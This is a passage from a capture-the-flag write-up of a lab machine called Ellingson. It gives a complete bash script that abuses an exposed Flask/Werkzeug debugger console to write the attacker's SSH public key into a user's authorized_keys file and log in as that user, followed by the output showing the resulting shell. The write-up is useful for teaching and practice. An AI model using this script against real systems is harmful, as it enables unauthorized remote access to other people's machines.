 
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch

    163 packages can be updated.
    80 updates are security updates.


    Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211
    hal@ellingson:~$ 



### Script It

I checked out the requests that the debugger sends in Burp and
determined how I could send the same commands via a script. The
following script will get a shell as hal by adding my public key to the
`authorized_keys` file, connecting with ssh, and then removing that
entry from the `authorized_keys` file.



    #!/bin/bash

    KEY=/root/id_rsa_generated
    PUB_KEY=$(cat $KEY.pub)
    TARGET_PATH=/home/hal/.ssh/authorized_keys

    SECRET=$(curl -s 'http://10.10.10.139/articles/4'| grep SECRET | cut -d'"' -f2)
    FRAME=$(curl -s 'http://10.10.10.139/articles/4'| grep 'id="frame' | head -1 | cut -d- -f2 | cut -d'"' -f1)
    echo "[+] Got frame and secret from debug page"

    function run_cmd {
        curl -s -G -X GET "http://10.10.10.139/articles/4?__debugger__=yes&frm=$FRAME&s=$SECRET" --data-urlencode "cmd=$1" -x 127.0.0.1:8080 | grep -v ">>>" > /dev/null
    }

    echo "[*] Copying ${TARGET_PATH} to ${TARGET_PATH}.bak"
    run_cmd "import shutil"
    run_cmd "shutil.copyfile(\"${TARGET_PATH}\", \"${TARGET_PATH}.bak\")"
    echo "[*] Writing $key.pub to $TARGET_PATH"
    run_cmd "f=open(\"${TARGET_PATH}\", 'a')"
    run_cmd "f.write(\"\n${PUB_KEY}\")"
    run_cmd "f.close()"

    echo "[*] Connecting to ellingson as hal"
    echo "[*] Should reset $TARGET_PATH to original"
    ssh -t -i /root/id_rsa_generated hal@10.10.10.139 "mv ${TARGET_PATH}.bak ${TARGET_PATH}; bash"



It gets a shell:



    root@kali# ./hal_shell.sh
    [+] Got frame and secret from debug page
    [*] Copying /home/hal/.ssh/authorized_keys to /home/hal/.ssh/authorized_keys.bak
    [*] Writing .pub to /home/hal/.ssh/authorized_keys
    [*] Connecting to ellingson as hal
    [*] Should reset /home/hal/.ssh/authorized_keys to original
    hal@ellingson:~$

